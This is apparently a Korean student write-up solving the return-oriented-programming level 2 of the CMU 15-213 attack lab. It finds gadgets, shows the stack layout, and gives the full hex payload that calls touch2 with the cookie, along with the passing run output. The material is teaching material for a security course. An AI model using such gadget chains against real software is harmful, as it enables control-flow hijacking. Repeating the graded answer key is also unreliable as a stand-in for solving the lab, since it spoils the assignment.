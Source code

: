  우리는 `rax`에 임의의 값을 넣을 가젯을 찾아보아야 하고, 스택에 있는 값을 넣기 위해서는`pop`을 이용할 수 있기 때문에 `pop %rax`를 할 수 있는 가젯을 찾아보아야 한다. 그래서 `"pop rax"` 를 옵션으로 farm에서 `ropsearch`를 해본 결과, 이를 수행할 수 있는 가젯을 찾을 수 있엇다. 이 가젯은 `getval_330`에 존재하는데, 이를 `0x00401a84`부터 읽기 시작하면 `pop %rax; nop; nop; nop; retq`으로 해석되기 때문에 `pop %rax` 를 할 수 있는 가젯으로 쓸 수 있다. 

##### Compose Gadgets

우리는 이제 `pop %rax`를 하는 가젯과 `mov %rax,%rdi`를 하는 가젯이 있으므로 이를 이용해서 이 문제를 해결 할 수 있다. 스택에 `cookie`를 쓴 후  `pop %rax`를 통해 `rax`에 값을 적재하고,  `mov %rax,%rdi`를 통해 `rdi`에 `cookie`를 적재한 뒤 `touch2`의 주소를 이용하면 인자에 `cookie`를 넣어서 `touch2`를 호출할  수있다.

### Solution

#### Check Address of `touch2`

```r
gdb-peda$ p touch2
$6 = {void (unsigned int)} 0x4018a5 <touch2>
```

#### Compose

|             | hex                     | description                                           |
| ----------: | ----------------------- | ----------------------------------------------------- |
|       <-24> | 00 00 00 00 00 00 00 00 | buffer for `buf`                                      |
|       <-16> | 00 00 00 00 00 00 00 00 | buffer for `buf`                                      |
|        <-8> | 00 00 00 00 00 00 00 00 | buffer for `buf`                                      |
| rsp => <+0> | 84 1a 40 00 00 00 00 00 | Gadget `pop %rax`                                     |
|        <+8> | 73 01 96 78 00 00 00 00 | Cookie, 0x78960173. `pop %rax`를 통해 `rax`에 적재됨. |
|       <+16> | 70 1a 40 00 00 00 00 00 | Gadget `mov %rax, %rdi `                              |
|       <+24> | a5 18 40 00 00 00 00 00 | Address of `touch2`, 0x4018a5                         |

### Answer

##### sol4.hex

```python
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
84 1a 40 00 00 00 00 00
73 01 96 78 00 00 00 00
70 1a 40 00 00 00 00 00
a5 18 40 00 00 00 00 00
```

##### Result

```r
$ cat sol4.hex | ./hex2raw | ./rtarget -q
Cookie: 0x78960173
Type string:Touch2!: You called touch2(0x78960173)
Valid solution for level 2 with target rtarget
PASS: Would have posted the following:
	user id	84
	course	15213-f15
	lab	attacklab
	result	84:PASS:0xffffffff:rtarget:2:00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 84 1A 40 00 00 00 00 00 73 01 96 78 00 00 00 00 70 1A 40 00 00 00 00 00 A5 18 40 00 00 00 00 00 
```

